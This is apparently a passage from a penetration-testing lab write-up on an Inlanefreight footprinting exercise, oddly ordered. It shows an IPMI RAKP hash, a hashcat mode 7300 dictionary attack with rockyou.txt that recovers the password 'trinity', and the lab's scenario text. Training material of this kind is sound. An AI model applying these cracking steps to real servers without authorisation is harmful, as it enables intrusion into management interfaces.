 ### 2. **`trinity`**

```zsh
cat ipmi_hash.txt 
97d1c2c98201000031bc6db8cfc67b797209b4dd0cbc28ced269b4f4d03b7b426896fa87a5cf9096a123456789abcdefa123456789abcdef140561646d696e:daa885de4466cd8e67f3df90b816f9a82b5807fc
```

```zsh
hashcat -m 7300 -a 0 ipmi_hash.txt  rockyou.txt
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 2 secs

97d1c2c98201000031bc6db8cfc67b797209b4dd0cbc28ced269b4f4d03b7b426896fa87a5cf9096a123456789abcdefa123456789abcdef140561646d696e:daa885de4466cd8e67f3df90b816f9a82b5807fc:trinity
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7300 (IPMI2 RAKP HMAC-SHA1)
Hash.Target......: 97d1c2c98201000031bc6db8cfc67b797209b4dd0cbc28ced26...5807fc
Time.Started.....: Sat Mar 29 07:02:17 2025 (0 secs)
Time.Estimated...: Sat Mar 29 07:02:17 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    14932 H/s (0.85ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1024/14344384 (0.01%)
Rejected.........: 0/1024 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> bethany

Started: Sat Mar 29 07:01:32 2025
Stopped: Sat Mar 29 07:02:18 2025
```

```zsh
hashcat -m 7300 -a 0 ipmi_hash.txt  rockyou.txt --show
97d1c2c98201000031bc6db8cfc67b797209b4dd0cbc28ced269b4f4d03b7b426896fa87a5cf9096a123456789abcdefa123456789abcdef140561646d696e:daa885de4466cd8e67f3df90b816f9a82b5807fc:trinity
```


# Footprinting Lab - Easy

We were commissioned by the company `Inlanefreight Ltd` to test three different servers in their internal network. The company uses many different services, and the IT security department felt that a penetration test was necessary to gain insight into their overall security posture.
